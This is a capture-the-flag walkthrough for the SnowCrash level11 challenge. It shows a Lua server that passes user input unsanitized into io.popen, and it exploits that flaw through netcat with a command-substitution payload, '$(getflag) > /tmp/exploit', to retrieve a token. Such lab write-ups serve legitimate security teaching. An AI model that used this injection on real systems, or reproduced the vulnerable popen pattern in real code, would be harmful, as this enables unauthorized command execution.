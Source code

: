 ## level11

There is a lua file called level11.lua:

```lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

The program launches a server and asks for a password that is hashed and compared with the correct hashed password. I know the hashed password, and I know the hashing algorithm (sha-1), but reversing the password won't do much good because it won't give me what I want.

The hash function is however exploitable: the `io.popen()` command allows to execute a system command. Here, the program echoes my input. So if I put a system command with a `$` sign so that it is interpreted, I should be able to get the flag. I will need to put it in a file if I want to get the result.

I try to run the program, but I get an error, it looks like the program is already running. I connect to it with netcat: `nc localhost 5151`.

```
level11@SnowCrash:~$ nc localhost 5151
Password: $(getflag) > /tmp/exploit
Erf nope..
level11@SnowCrash:~$ cat /tmp/exploit
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```

The `su flag11` command works with this password and I can now run the `getflag` command and go to the next level.